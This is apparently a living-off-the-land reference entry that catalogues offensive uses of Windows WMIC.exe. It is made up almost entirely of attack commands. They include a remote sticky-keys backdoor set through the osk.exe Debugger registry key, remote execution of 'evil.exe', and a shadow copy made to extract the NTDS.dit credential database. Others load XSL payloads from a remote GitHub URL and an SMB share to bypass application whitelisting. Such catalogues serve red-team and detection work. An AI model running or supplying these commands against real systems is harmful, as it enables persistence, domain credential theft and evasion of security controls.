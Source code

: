 ## WMIC.exe

* Functions: Reconnaissance, Execute, Read ADS

```
wmic process call create calc    

wmic process call create '"c:\ads\file.txt:program.exe"'
   
wmic useraccount get /ALL    
    
wmic process get caption,executablepath,commandline     
    
wmic qfe get description,installedOn /format:csv    
    
wmic /node:"192.168.0.1" service where (caption like "%sql server (%")    
    
get-wmiobject –class "win32_share" –namespace "root\CIMV2" –computer "targetname"    
    
wmic /user:<username> /password:<password> /node:<computer_name> process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"    
    
wmic /NODE: "192.168.0.1" process call create "evil.exe"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "at 9:00PM c:\GoogleUpdate.exe ^> c:\notGoogleUpdateResults.txt"    
    
wmic /node:REMOTECOMPUTERNAME PROCESS call create "cmd /c vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\not_the_NTDS.dit"    
     
wmic process get brief /format:"https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Wmic_calc.xsl"    
     
wmic os get /format:"MYXSLFILE.xsl"    
     
wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"   
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* [Wmic_calc.xsl](Payloads/Wmic_calc.xsl)   

Resources:
* https://stackoverflow.com/questions/24658745/wmic-how-to-use-process-call-create-with-a-specific-working-directory
* https://subt0x11.blogspot.no/2018/04/wmicexe-whitelisting-bypass-hacking.html
* https://twitter.com/subTee/status/986234811944648707

Full path:
```
c:\windows\system32\wbem\wmic.exe
c:\windows\sysWOW64\wbem\wmic.exe
```

Notes:



 
